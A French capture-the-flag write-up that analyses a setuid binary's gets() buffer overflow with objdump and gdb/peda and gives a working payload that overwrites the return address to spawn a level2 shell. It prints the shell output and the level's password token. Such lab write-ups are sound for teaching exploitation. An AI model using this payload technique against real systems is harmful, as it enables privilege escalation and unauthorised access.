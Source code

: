 ## Démarche
<!-- - La commande `readelf -r level1` nous donne des informations à propos du programme elf `level1` :
  
    ```
    Relocation section '.rel.dyn' at offset 0x2c0 contains 2 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049788  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
    080497c0  00000605 R_386_COPY        080497c0   stdout

    Relocation section '.rel.plt' at offset 0x2d0 contains 5 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049798  00000107 R_386_JUMP_SLOT   00000000   gets
    0804979c  00000207 R_386_JUMP_SLOT   00000000   fwrite
    080497a0  00000307 R_386_JUMP_SLOT   00000000   system
    080497a4  00000407 R_386_JUMP_SLOT   00000000   __gmon_start__
    080497a8  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main
    ``` -->

- La commande `objdump -d level1` nous permet de connaitre la constitution du programme :
  - On remarque une fonction `run` en plus du `main`:
     > 08048444 <run>:
  - Ainsi qu'un appel de `gets` dans le `main` : 
    >  8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>

    Cette fonction est déconseillée :
    `man gets`
    > SECURITY CONSIDERATIONS
     The gets() function cannot be used securely.  Because of its lack of bounds
     checking, and the inability for the calling program to reliably determine
     the length of the next incoming line, the use of this function enables mali-
     cious users to arbitrarily change a running program's functionality through
     a buffer overflow attack.  It is strongly suggested that the fgets() func-
     tion be used in all cases.  (See the FSA.)

- Dans gdb, avec peda (`source /tmp/peda/peda.py`- cf level0)
  - `disass main` :
    ```
    0x08048480 <+0>:	push   ebp
    0x08048481 <+1>:	mov    ebp,esp
    0x08048483 <+3>:	and    esp,0xfffffff0
    0x08048486 <+6>:	sub    esp,0x50
    0x08048489 <+9>:	lea    eax,[esp+0x10]
    0x0804848d <+13>:	mov    DWORD PTR [esp],eax
    0x08048490 <+16>:	call   0x8048340 <gets@plt>
    0x08048495 <+21>:	leave
    0x08048496 <+22>:	ret
     ```
  - `disass run` :
    ```
    Dump of assembler code for function run:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,ds:0x80497c0
    0x0804844f <+11>:	mov    edx,eax
    0x08048451 <+13>:	mov    eax,0x8048570
    0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
    0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
    0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
    0x0804846a <+38>:	mov    DWORD PTR [esp],eax
    0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
    0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
    0x08048479 <+53>:	call   0x8048360 <system@plt>
    0x0804847e <+58>:	leave
    0x0804847f <+59>:	ret
    End of assembler dump.
    ```

  - En lançant le debug avec un breakpoint sur le main (`br main`) puis en sautant jusqu'à l'adresse de la fonction run (`jump *0x08048444`), on obtient l'ouverture d'un shell avec les droits level1 :
    ```
    Good... Wait what?
    [New process 4468]
    process 4468 is executing new program: /bin/dash
    $ whoami
    [New process 4469]
    process 4469 is executing new program: /usr/bin/whoami
    level1
    $ [Inferior 4 (process 4469) exited normally]
    ```
    <!-- - `(python -c 'print("\xef\xbe\xad\xde")' ; cat) | ./level1` -->

  - Pour exploiter la faille de la fonction gets, trouver quelle taille permet d'overflow le buffer :
    - Créer un pattern avec la fonction `pattern create 100` de peda.
    - Lancer le programme avec le pattern sur l'entrée standard :
      
      `run < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")')`
      On obtient bien le segfault attendu.
    - Chercher l'emplacement du pattern en mémoire avec `pattern search` :
        > EBP+0 found at offset: 72
        > 
        > [EBP] --> offset 72 - size ~28
    <!-- - Placer un breakpoint sur la fonction run avec `br run` (ceci nous donne aussi son adresse : `Breakpoint 1 at 0x804844a`) -->
    <!-- - Relancer le programme avec une chaine comportant 72 + 4 caractères puis l'adresse de run (inversée) : -->
      <!-- `r < <(python -c 'print "\x90"*76+"\x4a\x84\x04\x08"')` -->

- Dans la Vm :
  - générer une chaine de 72 + 4 (taille du pointeur) caractères suivie de l'adresse de la fonction `run` (0x08048444 inversée car système little endian) et la passer sur l'entrée standard du programme :
    `(python -c 'print "A"*76+"\x4a\x84\x04\x08"' ; cat) | ./level1`

    Un nouvel shell est exécuté avec les droits user level2 :
      ```
      Good... Wait what?
      whoami
      level2
      pwd
      /home/user/level1
      cd ../level2
      pwd
      /home/user/level2
      ls
      level2
      ls -la
      total 17
      dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
      dr-x--x--x  1 root   root    340 Sep 23  2015 ..
      -rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
      -rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
      -rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
      -rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
      -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
      cat .pass
      53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
      ```

      buffer[50];


<br>
----
## Ressources

- [Return to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
- [Buffer Overflow Attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)
- [Managing inputs for payload injection](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection/13929#13929)
- [Check Endian system](https://serverfault.com/questions/163487/how-to-tell-if-a-linux-system-is-big-endian-or-little-endian)


<!-- - [PLT call in ELF programm](https://stackoverflow.com/questions/25667205/what-exactly-does-putsplt-mean) -->
<!-- - [RELRO - Memory Corruption Mitigation Technique](https://tk-blog.blogspot.com/2009/02/relro-not-so-well-known-memory.html) -->
<!-- - [Mémoire - protection : RELRO](https://www.root-me.org/fr/Documentation/Applicatif/Memoire-protection-RELRO) -->